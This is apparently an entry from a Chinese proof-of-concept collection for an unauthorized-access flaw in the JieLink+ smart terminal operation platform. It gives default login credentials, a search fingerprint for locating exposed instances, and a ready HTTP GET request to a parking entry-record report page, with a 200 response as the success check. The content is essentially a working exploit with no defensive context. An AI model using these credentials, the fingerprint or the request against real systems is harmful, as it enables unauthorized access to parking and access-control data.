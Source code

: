 ﻿# JieLink+智能终端操作平台 未授权访问5

> 更新时间：2024-01-19

> 漏洞编号：

> 漏洞说明：账号：9999 密码：123456

> 漏洞特征：title=="JieLink+智能终端操作平台"

> 验证脚本：HTTP

```
GET /Report/ParkEnterRecord/Index HTTP/1.1
```

> 响应代码特征：200

> 响应内容特征：

> 上传文件定位：


> 验证文件来源：JieLink+智能终端操作平台 未授权访问5.poc
